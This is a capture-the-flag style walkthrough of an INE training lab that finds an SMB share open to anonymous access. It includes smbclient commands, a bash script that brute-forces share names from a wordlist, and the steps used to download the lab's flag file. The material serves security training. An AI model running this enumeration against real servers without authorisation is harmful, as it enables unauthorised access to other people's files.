





# SMB Enumeration: Anonymous Access

## Challenge Title
SMB Share with Anonymous Access

## Category
Assessment Methodologies – Enumeration

## Lab Link
[INE Lab](https://my.ine.com/CyberSecurity/courses/d707f31c-913d-477e-951e-74503392e9ae/assessment-methodologies-enumeration/lab/24c50c27-185b-4541-a88f-e2a12811053e)

---

## Description

The goal of this challenge is to identify an SMB share that allows **anonymous access**, enumerate its contents, and retrieve a hidden flag.

---

## Tools Used

- `smbclient`: to query SMB shares
- `bash`: to script brute-force enumeration of share names
- `nano` / `chmod`: to edit and execute the script

---

## Step-by-Step Walkthrough

### 🔹 Step 1: Initial Enumeration with `smbclient`

```bash
smbclient -L //target.ine.local -N
```


### 🔹 Step 2: Create Enumeration Script (shares.sh)

```bash
nano shares.sh
```
Paste the following script:
```bash
#!/bin/bash

TARGET="target.ine.local"
WORDLIST="./shares.txt"

if [ ! -f "$WORDLIST" ]; then
    echo "Wordlist not found: $WORDLIST"
    exit 1
fi

while read -r SHARE; do
    echo "Testing share: $SHARE"
    smbclient //$TARGET/$SHARE -N -c "ls" &>/dev/null

    if [ $? -eq 0 ]; then
        echo "[+] Anonymous access allowed for: $SHARE"
    else
        echo "[-] Access denied for: $SHARE"
    fi
done < "$WORDLIST"
```
Make it executable:
```bash
chmod +x shares.sh
```

### 🔹 Step 3: Create the Wordlist (shares.txt)
```text
publicdata
communitydata
openstorage
freestorage
accessiblestorage
pubstorage
commonstorage
publicarchive
sharedarchive
commonarchive
pubarchive
opendocs
freedocs
communitydocs
accessibledocs
commondocs
pubdocs
publicfiles
openfiles
freefiles
sharedfiles
accessiblefiles
communityfiles
commonsfiles
pubfiles
openvault
freevault
accessiblevault
publicvault
commonvault
openlibrary                                                                                                                                                                                                                                
pubvault                                                                                                                                                                                                                                   
freelibrary                                                                                                                                                                                                                                
accessiblelibrary                                                                                                                                                                                                                          
worldstoragebin                                                                                                                                                                                                                            
universalstoragebin                                                                                                                                                                                                                        
sharedstoragebin                                                                                                                                                                                                                           
collectivestoragebin                                                                                                                                                                                                                       
mutualstoragebin                                                                                                                                                                                                                           
globalarchivebin
worldarchivebin
universalarchivebin
```

### 🔹 Step 4: Run the Script
```bash
./shares.sh
```
Output:
You’ll see lots of denied messages until:
```css
[+] Anonymous access allowed for: pubfiles
```
That means pubfiles is accessible anonymously.

### 🔹 Step 5: Access the Share
```bash
smbclient //target.ine.local/pubfiles -N
```
List contents:
```bash
smb: \> ls
```
You’ll see something like:
flag1.txt

### 🔹 Step 6: Download the Flag
```bash
smb: \> get flag1.txt
```
Exit the session:
```bash
smb: \> exit
```

### 🔹 Step 7: View the Flag
```bash
cat flag1.txt
```
✅ Final Output:
FLAG{56a55b23a464f5b8893fe22c6e3d611}

## Conclusion
This lab highlights the importance of checking for misconfigured Samba shares that allow anonymous access. Attackers can exploit this to discover sensitive files like backup data, credentials, or flags.

## Files Included
- `shares.sh`: The script used to enumerate shares
- `shares.txt`: Wordlist of possible SMB share names
- `flag1.txt`: Retrieved flag from the anonymous share

## Screenshots of my solution:







